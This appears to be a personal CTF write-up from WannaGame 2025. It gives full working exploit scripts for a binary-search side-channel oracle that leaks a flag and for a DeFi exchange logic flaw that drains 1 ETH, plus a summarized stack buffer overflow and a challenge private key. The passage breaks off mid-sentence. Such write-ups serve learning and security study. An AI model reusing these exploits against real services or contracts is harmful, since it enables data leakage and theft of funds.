




Hi, I have spent 2 days on the WannaGame 2025 competition. And I have to say that it is really hard and wide with knowledge. I'm only able to solve 3 questions with a lot of help from my friends and AI. 

Well, I wrote this one quickly, so it may not be clear to you, and it shows how I solved the challenges. 

Really thank to [LiveOverflow - YouTube](https://www.youtube.com/@LiveOverflow) ! Provide me helpful keywords from his video and yahhh 
Let's goooo !!!




# BUZZING

This challenge exploits a classic **Buffer Overflow** vulnerability within a simplified **eBPF Loader** program.

**Vulnerability:** The loader program reads eBPF code from a file and writes it into a fixed-size **stack** region without proper length checks.
**Exploitation:**
1. **Stage 1: Overwrite Stack:** Send an oversized eBPF code payload that overflows the target buffer.
2. **Stage 2: Control Flow:** Overwrite the function's **return address** (`ret address`) on the stack.
3. **Payload:** The overwritten `ret address` is directed to a location that executes a shell command (via `exec` or a similar gadget sequence like `pop_rdi; ret` leading to `exec("/bin/sh")`).
**Flag Command:** You used the command `exec 3<./readflag; /proc/self/fd/3`, which is a common technique to read the flag file directly, bypassing potential file reading restrictions in the execution environment.


```php
bocchi@c97e21348120:/$ /bin/bash -c "exec 3<./readflag; /proc/self/fd/3"
W1{just_4_s1mpl3_3bpf_l04d3r_buzz1n'_4r0und_fufu_76274bc788378a36b3345a49948045e9}
```


# Dejavu

This challenge is a **Side-Channel Attack** leveraging a comparison logic flaw to create a **Binary Search Oracle** on the server.

- **Core Vulnerability (Oracle):** The server compares a secret value (the `flag` data) against a user-provided guess. The resulting server response reveals the outcome of the comparison:

```
◦ If `flag` < `guess` (overshot) --> **`Still can't wake up`**
◦ If `flag` $\\geq$ `guess` (correct or undershot) --> **`Run away now`**

```

- **Exploitation Method:**
1. **Offset Calculation:** The flag data is stored 32 bytes after the `doors` array (`0x4060` vs `0x4080`). Since the comparison is done on 2-byte units (`uint16_t`), the starting index for the flag is 32 / 2 =16 (`start_index = 16`).
2. **Unit of Leak:** The oracle compares a **2-byte** chunk (0 to 65535).
3. **Binary Search:** Since the response acts as a perfect **oracle** (True/False comparison), you can perform a **Binary Search** over the range 0 to 65535 for each 2-byte chunk.
▪ The script iteratively performs Binary Search for 20 chunks (or until the end of the flag).
▪ Each query halves the search space, efficiently finding the exact 2-byte value in about 16-17 queries.




```python

from pwn import *

# Bật debug để nhìn rõ dữ liệu gửi/nhận nếu lỗi
# context.log_level = 'debug'

host = 'challenge.cnsc.com.vn'
port = 31194

# Offset tính toán:
# doors @ 0x4060, flag @ 0x4080 => Cách nhau 32 bytes
# Mỗi phần tử là 2 bytes => Index bắt đầu = 16
start_index = 16

def check_value_safe(door_idx, guess):
    """
    Phiên bản an toàn: Tạo kết nối mới cho MỖI lần thử.
    Tránh tuyệt đối việc lệch buffer hay 'Invalid input'.
    """
    try:
        # 1. Tạo kết nối mới
        r = remote(host, port, level='error') # level='error' để tắt log kết nối rác
        
        # 2. Gửi Door Index
        # Dùng recvuntil để đảm bảo server đã hiện prompt
        r.recvuntil(b'go?') 
        r.sendline(str(door_idx).encode())
        
        # 3. Gửi Offset (0x10000 - guess)
        r.recvuntil(b'dream?')
        offset = 0x10000 - guess
        r.sendline(str(offset).encode())
        
        # 4. Gửi payload kích hoạt syscall
        r.recvuntil(b'dream?') # Prompt thứ 3: "How can you know..."
        r.send(b'A' * 16)
        
        # 5. Đọc kết quả
        response = r.recvall(timeout=1) # Đọc tất cả phản hồi
        r.close()
        
        if b"Still can't wake up" in response:
            return False # Flag < Guess
        elif b"Run away now" in response:
            return True  # Flag >= Guess
        else:
            # Trường hợp lạ, trả về False để an toàn
            return False
            
    except Exception as e:
        print(f"[!] Lỗi kết nối: {e}")
        return False

print(f"[*] Bắt đầu tấn công Oracle vào {host}:{port}...")

flag = b""

# Vòng lặp leak từng chunk 2-byte
for i in range(20): 
    door_idx = start_index + i
    print(f"\n[*] Đang leak chunk thứ {i} (Index {door_idx})...")
    
    # Binary Search
    low = 0
    high = 65535
    ans = 0
    
    while low <= high:
        mid = (low + high) // 2
        # Gọi hàm check an toàn
        if check_value_safe(door_idx, mid):
            ans = mid
            low = mid + 1
            # In dấu chấm để biết script vẫn đang chạy
            print(".", end="", flush=True)
        else:
            high = mid - 1
            print(".", end="", flush=True)
            
    chunk = p16(ans)
    
    if chunk == b'\x00\x00':
        break
        
    flag += chunk
    print(f"\n[+] Tìm thấy: {chunk} | Flag hiện tại: {flag}")
    
    if b'}' in chunk:
        print("\n[SUCCESS] Xong!")
        break

print(f"\n[FINAL FLAG] {flag.decode(errors='ignore')}")
```

```php
[*] Bắt đầu tấn công Oracle vào challenge.cnsc.com.vn:32567...

[*] Đang leak chunk thứ 0 (Index 16)...
................
[+] Tìm thấy: b'W1' | Flag hiện tại: b'W1'

[*] Đang leak chunk thứ 1 (Index 17)...
................
[+] Tìm thấy: b'{f' | Flag hiện tại: b'W1{f'

[*] Đang leak chunk thứ 2 (Index 18)...
................
[+] Tìm thấy: b'In' | Flag hiện tại: b'W1{fIn'

[*] Đang leak chunk thứ 3 (Index 19)...
................
[+] Tìm thấy: b'A1' | Flag hiện tại: b'W1{fInA1'

[*] Đang leak chunk thứ 4 (Index 20)...
................
[+] Tìm thấy: b'1Y' | Flag hiện tại: b'W1{fInA11Y'

[*] Đang leak chunk thứ 5 (Index 21)...
................
[+] Tìm thấy: b'_R' | Flag hiện tại: b'W1{fInA11Y_R'

[*] Đang leak chunk thứ 6 (Index 22)...
................
[+] Tìm thấy: b'3T' | Flag hiện tại: b'W1{fInA11Y_R3T'

[*] Đang leak chunk thứ 7 (Index 23)...
................
[+] Tìm thấy: b'Ur' | Flag hiện tại: b'W1{fInA11Y_R3TUr'

[*] Đang leak chunk thứ 8 (Index 24)...
................
[+] Tìm thấy: b'n-' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-'

[*] Đang leak chunk thứ 9 (Index 25)...
................
[+] Tìm thấy: b'T0' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0'

[*] Đang leak chunk thứ 10 (Index 26)...
................
[+] Tìm thấy: b'-R' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R'

[*] Đang leak chunk thứ 11 (Index 27)...
................
[+] Tìm thấy: b'3A' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3A'

[*] Đang leak chunk thứ 12 (Index 28)...
................
[+] Tìm thấy: b'L1' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1'

[*] Đang leak chunk thứ 13 (Index 29)...
................
[+] Tìm thấy: b'ty' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty'

[*] Đang leak chunk thứ 14 (Index 30)...
................
[+] Tìm thấy: b'16' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty16'

[*] Đang leak chunk thứ 15 (Index 31)...
................
[+] Tìm thấy: b'8c' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty168c'

[*] Đang leak chunk thứ 16 (Index 32)...
................
[+] Tìm thấy: b'6a' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty168c6a'

[*] Đang leak chunk thứ 17 (Index 33)...
................
[+] Tìm thấy: b'd1' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty168c6ad1'

[*] Đang leak chunk thứ 18 (Index 34)...
................
[+] Tìm thấy: b'bc' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty168c6ad1bc'

[*] Đang leak chunk thứ 19 (Index 35)...
................
[+] Tìm thấy: b'}\n' | Flag hiện tại: b'W1{fInA11Y_R3TUrn-T0-R3AL1ty168c6ad1bc}\n'

[SUCCESS] Xong!

[FINAL FLAG] W1{fInA11Y_R3TUrn-T0-R3AL1ty168c6ad1bc}
```


# freex

- This is an exploit targeting a common logic error in Decentralized Finance (**DeFi**) protocols regarding the handling of user balances and liabilities.
    - **Core Vulnerability:** The **Exchange** contract tracks both user **Balance** (money deposited) and **Liability** (money owed/promised). The exploit abuses the sequence or logic in which these two variables are updated.
        - `exchangeToken` creates a **LIABILITY**.
        - `deposit` increases the **BALANCE**.
        - `claimReceivedWannaETH` checks the LIABILITY to dispense the reward.
    - **Exploitation Steps (Logic Abuse):**
        - **Setup:** Deploy a junk ERC20 token (`AttackToken`) that you own.
        - **`Step 1`: Create Liability:** Call `exchangeToken(player_address, AttackToken, AMOUNT)`.
                The Exchange now believes the user is **owed** a reward (WETH) and **Owes** back $AMOUNT$ of `AttackToken`.
                **Liability is recorded.
        `Step 2`: Clear Balance/Keep Liability:** Call `deposit(AttackToken, AMOUNT)`.
                This action is intended to **settle** a debt or increase the balance. The critical flaw is that the system processes this deposit of a virtually worthless token in a way that satisfies the internal accounting check **without properly adjusting or deleting the initial liability** created in Step 1.
        The deposit operation incorrectly makes the Exchange believe the user has "paid their debt" or is in a state allowing the claim.
        **`Step 3:` Claim Reward:** Call `claimReceivedWannaETH()`.
                Since the **Liability** check (or the conditions for claiming) are satisfied due to the logic bypass in Step 2, the contract mistakenly grants the reward (1 ETH).
```php
└─$ nc challenge.cnsc.com.vn 31770
1 - launch new instance
2 - kill instance
3 - acquire flag
action? 3
uuid please: 68b4eef5-c78b-417a-b3c4-c39e2d799a31

Congratulations! You have solve it! Here's the flag: 
W1{heR3-For-YOU_The-FRE3ex-ch41Leng3-fL@g31a}

```

```php
$ python exploit.py                                                                    
[*] Checking/Installing solc v0.8.0...
[*] Connected to http://challenge.cnsc.com.vn:32182/68b4eef5-c78b-417a-b3c4-c39e2d799a31
[*] Player Address: 0x3A4b3e3819a441d135AE6932d4890c7750AE6C36
[*] Exchange Address found: 0xd2F5A1f570D3F2270A3aE122D9FA9FC8Ec21cE47
[*] Registering player...
[*] Compiling and Deploying Malicious Token...
[*] Attack Token Deployed at: 0xe9e508EC00Bd74fEE48fdcB7761A36B5fC0d6540
[1/3] Approving Exchange for 15000000000000000000...
[2/3] Exchanging Token (Creating Liability)...
[3/3] Depositing Token (Clearing Balance, Keeping Liability)...
[*] Claiming Reward (OneETH)...

[*] CHECKING SOLVED STATUS: True
[+] SUCCESS! Challenge Solved.
[+] PLEASE WAIT 10 SECONDS then submit flag via Netcat.
```

```python
import time
from web3 import Web3
from solcx import compile_source, install_solc

# ================= CẤU HÌNH INSTANCE MỚI =================
# UUID mới của bạn
UUID = "68b4eef5-c78b-417a-b3c4-c39e2d799a31"

# URL kết nối (Giữ nguyên domain/port 32182 như các lần trước để kết nối từ ngoài vào)
RPC_URL = f"http://challenge.cnsc.com.vn:32182/{UUID}"

# Private Key mới
PRIVATE_KEY = "9a5c6c99826884e925047104fef8a03976e21c6055ffd2e5d06b19119515fa79"

# Setup Contract mới
SETUP_CONTRACT = "0x268AeeE42D517c5ad89486f57caB6c0F4d5d1fC5"

# ================= 1. CÀI ĐẶT COMPILER =================
print("[*] Checking/Installing solc v0.8.0...")
# Cài đặt phiên bản compiler cần thiết
install_solc('0.8.0')

# ================= 2. KẾT NỐI WEB3 =================
w3 = Web3(Web3.HTTPProvider(RPC_URL))
if not w3.is_connected():
    print(f"[-] Cannot connect to {RPC_URL}")
    print("[-] Kiểm tra lại kết nối mạng hoặc VPN.")
    exit()

account = w3.eth.account.from_key(PRIVATE_KEY)
player_address = account.address

print(f"[*] Connected to {RPC_URL}")
print(f"[*] Player Address: {player_address}")

# ================= 3. ABIS =================
SETUP_ABI = [
    {"inputs":[],"name":"exchange","outputs":[{"internalType":"contract Exchange","name":"","type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"isSolved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"register","outputs":[],"stateMutability":"nonpayable","type":"function"}
]

EXCHANGE_ABI = [
    {"inputs":[{"internalType":"address","name":"sender","type":"address"},{"internalType":"address","name":"asset","type":"address"},{"internalType":"uint64","name":"amount","type":"uint64"}],"name":"exchangeToken","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"contract IERC20","name":"asset","type":"address"},{"internalType":"uint64","name":"amount","type":"uint64"}],"name":"deposit","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[],"name":"claimReceivedWannaETH","outputs":[],"stateMutability":"nonpayable","type":"function"}
]

ERC20_ABI = [
    {"inputs":[{"internalType":"address","name":"spender","type":"address"},{"internalType":"uint256","name":"value","type":"uint256"}],"name":"approve","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"address","name":"account","type":"address"}],"name":"balanceOf","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}
]

# Source code Token rác
ATTACK_TOKEN_SRC = """
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackToken {
    string public name = "Attack";
    string public symbol = "ATK";
    uint8 public decimals = 18;
    uint256 public totalSupply = 1000000 * 10**18;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    constructor() {
        balanceOf[msg.sender] = totalSupply;
    }

    function approve(address spender, uint256 amount) public returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    function transfer(address recipient, uint256 amount) public returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) public returns (bool) {
        allowance[sender][msg.sender] -= amount;
        balanceOf[sender] -= amount;
        balanceOf[recipient] += amount;
        return true;
    }
}
"""

def send_tx(func_call, value=0):
    try:
        tx = func_call.build_transaction({
            'from': player_address,
            'nonce': w3.eth.get_transaction_count(player_address),
            'gas': 3000000, 
            'gasPrice': w3.eth.gas_price,
            'value': value
        })
        signed_tx = w3.eth.account.sign_transaction(tx, PRIVATE_KEY)
        tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
        receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
        if receipt.status == 1:
            return receipt
        else:
            print("[-] Transaction failed (Reverted)!")
            return None
    except Exception as e:
        print(f"[-] Error sending tx: {e}")
        return None

def main():
    # Bước 1: Lấy địa chỉ Exchange
    setup_contract = w3.eth.contract(address=SETUP_CONTRACT, abi=SETUP_ABI)
    exchange_address = setup_contract.functions.exchange().call()
    print(f"[*] Exchange Address found: {exchange_address}")
    
    exchange_contract = w3.eth.contract(address=exchange_address, abi=EXCHANGE_ABI)

    # Bước 2: Đăng ký (Register)
    try:
        print("[*] Registering player...")
        send_tx(setup_contract.functions.register())
    except Exception:
        print("[!] Already registered (Proceeding...)")

    # Bước 3: Deploy Token Rác
    print("[*] Compiling and Deploying Malicious Token...")
    
    # Chỉ định version 0.8.0
    compiled_sol = compile_source(
        ATTACK_TOKEN_SRC, 
        output_values=['abi', 'bin'],
        solc_version='0.8.0' 
    )
    contract_id, contract_interface = list(compiled_sol.items())[0]
    
    AttackToken = w3.eth.contract(abi=contract_interface['abi'], bytecode=contract_interface['bin'])
    
    construct_tx = AttackToken.constructor().build_transaction({
        'from': player_address,
        'nonce': w3.eth.get_transaction_count(player_address),
        'gas': 2000000,
        'gasPrice': w3.eth.gas_price
    })
    signed = w3.eth.account.sign_transaction(construct_tx, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    token_address = receipt.contractAddress
    print(f"[*] Attack Token Deployed at: {token_address}")
    
    attack_token = w3.eth.contract(address=token_address, abi=ERC20_ABI)

    # Bước 4: TẤN CÔNG (EXPLOIT)
    # 15 ETH để bypass lỗi uint64 overflow
    AMOUNT = 15 * 10**18 
    
    print(f"[1/3] Approving Exchange for {AMOUNT}...")
    send_tx(attack_token.functions.approve(exchange_address, AMOUNT * 2))

    print("[2/3] Exchanging Token (Creating Liability)...")
    send_tx(exchange_contract.functions.exchangeToken(player_address, token_address, AMOUNT))

    print("[3/3] Depositing Token (Clearing Balance, Keeping Liability)...")
    send_tx(exchange_contract.functions.deposit(token_address, AMOUNT))

    print("[*] Claiming Reward (OneETH)...")
    send_tx(exchange_contract.functions.claimReceivedWannaETH())

    # Bước 5: Kiểm tra kết quả
    is_solved = setup_contract.functions.isSolved().call()
    print(f"\n[*] CHECKING SOLVED STATUS: {is_solved}")
    
    if is_solved:
        print("[+] SUCCESS! Challenge Solved.")
        print("[+] PLEASE WAIT 10 SECONDS then submit flag via Netcat.")
    else:
        print("[-] Exploit finished but isSolved is False.")

if __name__ == "__main__":
    main()
```


I'm really sad that our team score will be deactivated!! because one of our teammates caught a problem :
